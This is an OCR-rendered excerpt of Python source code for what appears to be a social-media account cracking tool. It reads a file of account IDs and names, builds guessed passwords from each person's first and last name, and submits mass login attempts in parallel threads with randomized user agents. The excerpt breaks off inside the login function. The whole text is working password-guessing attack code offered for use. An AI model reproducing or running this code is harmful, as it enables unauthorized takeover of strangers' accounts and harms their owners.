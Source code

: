 		clear()
		File = input(f' [\033[1;32m✓\033[1;37m] 𝗣𝗨𝗧 𝗙𝗜𝗟𝗘 𝗟𝗢𝗖𝗔𝗧𝗜𝗢𝗡 [\033[1;32m❯\033[1;37m] ')
		try:
			fo = open(File,'r').read().splitlines()
		except FileNotFoundError:
			print(f' [\033[1;32mX\033[1;37m] open location Not Found ')
			exit()
		print(f' [\033[38;5;46m1\033[1;37m] 𝗠𝗘𝗧𝗛𝗢𝗗 \033[1;32m1 \n [\033[38;5;46m2\033[1;37m] 𝗠𝗘𝗧𝗛𝗢𝗗 \033[1;32m2\033[1;37m ')
		mthd=input(f' [\033[1;32m✓\033[1;37m] Choice : ')
		plist=[]
		try:
			ps_limit = int(input(f' [\033[1;32m?\033[1;37m] How Many Passwords Do You Want To Add [\033[1;32m⟩\033[1;37m] '))
		except:
			ps_limit =1
		print(f' [\033[1;32m•\033[1;37m] Example: \033[1;36mfirst last,firtslast,first123 \033[1;37m')
		for i in range(ps_limit):
			plist.append(input(f' [\033[1;32m✓\033[1;37m] Put password {i+1}[\033[1;32m❯\033[1;37m] '))
		print(f' [\033[1;32m?\033[1;37m] Do You Went Show CP IDs (y/n): ')
		cx=input(f' [\033[1;32m✓\033[1;37m] Choice : ')
		if cx in ['n','N','no','NO','2']:
			pcp.append(f'n')
		else:
			pcp.append(f'y')
		with tred(max_workers=30) as crack_submit:
			clear()
			total_ids = str(len(fo))
			print(f' Total Account : \033[1;32m'+total_ids+f' \n \033[1;37mMethod : \033[1;32mM{mthd}\033[1;37m')
			print(f"\033[1;36m Use Flight Mode For Speed Up\033[1;37m")
			linex()
			for user in fo:
				ids,names = user.split('|')
				passlist = plist
				if mthd in ['1','01']:
					crack_submit.submit(m1,ids,names,passlist)
				elif mthd in ['2','02']:
					crack_submit.submit(m2,ids,names,passlist)
				else:
					crack_submit.submit(m1,ids,names,passlist)
				
def m1(ids,names,passlist):
        global loop,oks,cps
        sys.stdout.write(f'\r\r\033[1;37m [open] \033[1;36m•\033[1;37m %s \033[1;36m•\033[1;37m OK \033[1;36m•\033[1;37m [\033[1;32m%s\033[1;37m]'%(loop,len(oks)));sys.stdout.flush()
        session = requests.Session()
        try:
                first = names.split(f' ')[0]
                try:
                        last = names.split(f' ')[1]
                except:
                        last = 'Ahmed'
                ps = first.lower()
                ps2 = last.lower()
                for fikr in passlist:
               	        pas = fikr.replace(f'First',first).replace(f'Last',last).replace(f'first',ps).replace(f'last',ps2)
                        ua=random.choice(ugen)
